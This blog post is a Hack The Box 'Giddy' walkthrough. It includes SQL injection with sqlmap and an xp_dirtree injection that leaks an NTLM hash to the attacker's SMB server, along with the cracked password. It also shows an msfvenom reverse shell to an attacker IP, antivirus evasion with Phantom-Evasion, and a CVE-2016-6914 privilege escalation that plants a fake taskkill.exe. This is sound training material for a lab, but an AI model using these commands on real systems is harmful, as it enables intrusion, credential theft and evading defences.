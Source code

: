```yaml
---
layout: post
title:  "Hack The Box Giddy writeup (w/o Metasploit)"
date:   2019-10-22 11:52:14 -0400
featured_img: "/assets/giddy-10.10.10.104.png"
categories: giddy HTB
---
```


10.10.10.104 - Giddy
![Giddy](/assets/giddy-10.10.10.104.png)


First of all we will start with nmap.

`nmap -sC -sV -O 10.10.10.104`

![nmap](/assets/nmap-10.10.10.104.png) Ports 80 and 443 are open. Name of the machine is 'Giddy'


Let's try searching directories on the server:

`root@kali:~/dirsearch# python3 dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e asp -f -t 20 -u 10.10.10.104`

![dirsearch](/assets/dirsearch-10.10.10.104.png)


Here we can see two interesting paths:
- /remote
- /mvc


Let start with `/remote`

![dirsearch](/assets/remote-10.10.10.104.png)

We need credentials to login. But we do not have those. So let's look elsewhere.

Now let's try `/mvc`

![dirsearch](/assets/mvc-10.10.10.104.png)



Let's check for SQL injections
![search](/assets/search-10.10.10.104.png)

adding ' in the end of string gives us an error
![SQL injection](/assets/search-sqli-10.10.10.104.png)

So lets try running sqlmap

`sqlmap -u http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=10 --dump`

![SQL injection](/assets/sqlmap-10.10.10.104.png)

We are dealing with MSSQL server here



Given command will dump tables to `/root/.sqlmap/output/10.10.10.104/dump/Injection/`

![SQL injection](/assets/sqlmap-files-10.10.10.104.png)

But the only useful info we could find is the user --> `Stacy`

Ok. So what's next?
After some googling around I noticed that everybody was pointing to this post [https://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html][xpdirtree] about xp_dirtree.

`xpdirtree : 1; EXEC MASTER.sys.xp_dirtree '\\10.10.14.19\share'`

![SQL request](/assets/sqli-request-10.10.10.104.png)

We can try to capture NTLM hash using extended stored procedure `xp_dirtree` by making it connect to our [smbserver](https://github.com/SecureAuthCorp/impacket) or [Responder](https://github.com/lgandx/Responder).
Good article on responder [Pwning with Responder – A Pentester’s Guide](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)

So, let's start smbserver.py that will listen on our Kali machine

![listen with smbserver.py](/assets/smbserver-10.10.10.104.png)


request:

`https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=10; EXEC MASTER.sys.xp_dirtree '\\10.10.14.19'`

listen with smbserver.py

`/root/impacket/examples/smbserver.py share ~/emptyfolder/`

Alternatively we can listen with responder:

`./Responder.py -I tun0 -w -r -f`

Either way we will get hash:

{% highlight shell %}
Stacy::GIDDY:
4141414141414141:e2b88cdd4f99f01556ca0199ca1db0e0:010100000000000000b58d3b6879d50
{% endhighlight %}

So I saved it to giddy_hash.txt file and try to crack it.
We can do it using `hashcat` or `john`

hashcat

![hashcat part 1](/assets/hashcat-10.10.10.104.png)

![hashcat part 2](/assets/hashcat2-10.10.10.104.png)

john

`john --wordlist=/usr/share/wordlists/rockyou.txt giddy_hash.txt`

![john](/assets/john-10.10.10.104.png)

password: xNnWo6272k7x

So now, let's go to /remote and try to login with our creds

![login](/assets/login-10.10.10.104.png)

Congrats, we are in.

![login](/assets/user-flag-10.10.10.104.png)

and so, we got user.

Inside Documents folder we found a file name unifivideo.
Let's google it. Turns out there is a privesc cve ( CVE-2016-6914 ) for this application.
Here is a good explanation on how we can take advantage of it [https://www.exploit-db.com/exploits/43390][43390]

This part is the most interesting for us:

`By copying an arbitrary "taskkill.exe" to "C:\ProgramData\unifi-video\" as an
unprivileged user, it is therefore possible to escalate privileges and execute
arbitrary code as NT AUTHORITY/SYSTEM.`

So all we need here is to generate reverse shell file, name it taskkill.exe, copy it onto the
system and place it inside `C:\ProgramData\unifi-video\` folder.
Sounds easy.

So, first, we should generate reverse shell:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=443 -f exe > taskkill.exe`

![msfvenom](/assets/msfvenom-10.10.10.104.png)

Serve contents of our folder with python `python -m SimpleHTTPServer 80`

and upload our file:

`Invoke-WebRequest -o taskkill.exe http://10.10.14.19/taskkill.exe`

![login](/assets/bad-upload-10.10.10.104.png)


Oh no, something is wrong


Our file is not there. Why? Probably an antivirus blocking us from doing what we want.
There is a tool called phantom evasion ([https://github.com/oddcod3/Phantom-Evasion][Phantom]) that
will help obfuscate code of our reverse shell so antivirus can't recognize and block it.

![phantom1](/assets/phantom1-10.10.10.104.png)

Start the script

`python ~/Phantom-Evasion/phantom-evasion.py`

We will use following options.
1 windows modules ,
1 shellcode injection
4 windows shellcode injection heapalloc

![phantom2](/assets/phantom2-10.10.10.104.png)

here we choose msfvenom

payload: `windows/shell_reverse_tcp`

And for encoding option 4: `x86/xor_dynamic + Triple Multibyte-key xor`

![phantom3](/assets/phantom3-10.10.10.104.png)

for multi processes behaviour, stripping and signing the executable we choose not to do that.


Again, serve contents of our folder with python `python -m SimpleHTTPServer 80`

and upload taskkill.exe file to C:\ProgramData\unifi-video\

`Invoke-WebRequest -o C:\ProgramData\unifi-video\taskkill.exe http://10.10.14.19/taskkill.exe`

This time when we upload the file it will work.

Lets restart service and see what is going on:

`Restart-Service -Name "Ubiquiti UniFi Video"`

![Restart Service](/assets/restart-service-10.10.10.104.png)

so we got the system

![root shell](/assets/root-shell-10.10.10.104.png)

And here goes our root flag

![Root flag](/assets/root-flag-10.10.10.104.png)



[43390]: https://www.exploit-db.com/exploits/43390
[Phantom]:   https://github.com/oddcod3/Phantom-Evasion
[xpdirtree]: https://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html
